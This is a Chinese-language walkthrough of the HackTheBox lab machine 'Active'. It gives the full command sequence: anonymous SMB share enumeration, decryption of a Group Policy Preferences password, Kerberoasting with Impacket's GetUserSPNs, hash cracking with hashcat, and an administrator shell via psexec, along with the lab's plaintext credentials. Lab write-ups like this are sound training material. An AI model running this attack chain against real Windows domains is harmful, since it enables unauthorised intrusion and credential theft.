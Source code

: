 ```yaml
---
description: Easy / SMB共享 / 枚举
---
```


# ✔️ Active

## 建立立足点

### 信息收集&枚举

* 使用Nmap对目标系统进行开放端口扫描：

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

* 顺便把IP地址和域名写进/etc/hosts中，以便后续使用：

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

* 使用Nmap查找一下相关的SMB漏洞：

```bash
# 过滤出本机上关于smb漏洞扫描的脚本：
local -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

<figure><img src="../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

```bash
nmap --script safe -p 445 10.129.85.245
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

没有什么收获：

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

查找到当前目标系统中SMB服务是2.0版本，使用smb-enum-services脚本也无收获，该脚本貌似是作用于SMB 1.0版本的：

<figure><img src="../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录SMB服务，并枚举其所有共享目录：

```bash
smbclient -L 10.129.85.245
```

<figure><img src="../../.gitbook/assets/9 (6).png" alt=""><figcaption></figcaption></figure>

分别用enum4linux和smbmap这两种工具对这些共享目录进行枚举以及确认当前权限：

```bash
# enum4linux：
enum4linux 10.129.85.245
# smbmap:
smbmap -H 10.129.85.245
```

<figure><img src="../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
smbmap比enum4linux好用
{% endhint %}

* 以上两个工具的输出结果显示，当前这个匿名登录账户对\`/Replication\`目录是可读的，因此可以把该目录下的所有文件内容递归下载到我的Kali本机中，再逐个查看其内容是否有可以利用的信息：

```bash
smbclient //10.129.85.245/Replication
# 连接上之后，依次执行：
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

* 在查看各个文件夹内容后，发现路径/{31B2F346-616D-11D2-945F-06C64FB984F9}/MACHTNE/Preferences/Groups目录下有个\`Groups.xml\`文件，这个文件中会用用户名和加密后的密码信息：

<figure><img src="../../.gitbook/assets/14 (4).png" alt=""><figcaption></figcaption></figure>

* 用gpp-decrypt解码后获得明文密码：

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

* 此时已获得有效凭证<mark style="color:red;">**svg\_tgs:GPPstillStandingStrong2k18**</mark>

### GET SHELL

* 利用已获得的有效凭证再次枚举目标系统的SMB服务，看看是否获得了更多的信息和权限：

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.113
```

<figure><img src="../../.gitbook/assets/16 (4).png" alt=""><figcaption></figcaption></figure>

* 果然发现多了几个共享目录可读。但与此同时，也用Impacket的GetADUsers.py脚本枚举除了目标系统上所有的用户：

```bash
python3 GetADUsers.py -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.138.113
```

<figure><img src="../../.gitbook/assets/17 (4).png" alt=""><figcaption></figcaption></figure>

* 貌似/Users目录有东西，用凭证登录后逐一查看发现flag：

```bash
smbclient //10.129.138.113/Users -U SVC_TGS%GPPstillStandingStrong2k18
ls
```

<figure><img src="../../.gitbook/assets/18 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息收集&枚举

* 使用ldapsearch查询活动账户在域控中的属性，过滤出特定目标账户：

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname |grep sAMAccountName
```

<figure><img src="../../.gitbook/assets/22 (2).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName
```

<figure><img src="../../.gitbook/assets/23 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 使用GetUserSPNs.py脚本，提取Administrator的hash:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.138.113 -request
```

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

* 将输出的哈希值存为hash.txt文件，然后用hashcat对它进行爆破以获取Administrator的明文密码：

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得了管理员的明文密码<mark style="color:red;">**Ticketmaster1968，**</mark>配合psexec.py脚本获得管理员shell，成功root：

```bash
python3 psexec.py active.htb/Administrator@10.129.138.113 
```

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

* 获得flag：

<figure><img src="../../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
本例的考察重点是对目标SMB共享资源的枚举，属于简单级别的机器。

(本例机器重置过，所以IP地址中途有所改变，但不影响利用过程和结果)
{% endhint %}
